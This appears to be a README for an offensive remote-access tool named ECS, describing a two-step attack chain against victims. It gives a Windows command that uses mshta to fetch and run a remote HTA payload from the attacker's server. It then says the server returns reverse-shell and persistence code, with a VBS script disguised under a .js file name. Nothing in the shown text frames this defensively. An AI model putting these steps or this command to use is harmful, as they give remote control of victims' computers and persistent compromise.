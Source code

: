 # ECS
![](./ECC.png)

## $\color{red} {step1:}$         

 <span style="color:blue"> victim exec the malware or rce on victim : </span>
#### <span style="color:blue"> For windows:  </span>
```powershell  
mshta https://< ecs service url >?uid=< victim uid >&s=1< step number in this > 
``` 
## <span style="color:blue"> step 2 </span>
<span style="color:blue"> server response to victim the reversshell code and persistant acts and make main persist malware
acuatlly the file in path ecs/statics/js/step1.js is not javascript in truth its vbs script file and main html project is hta app  </span>



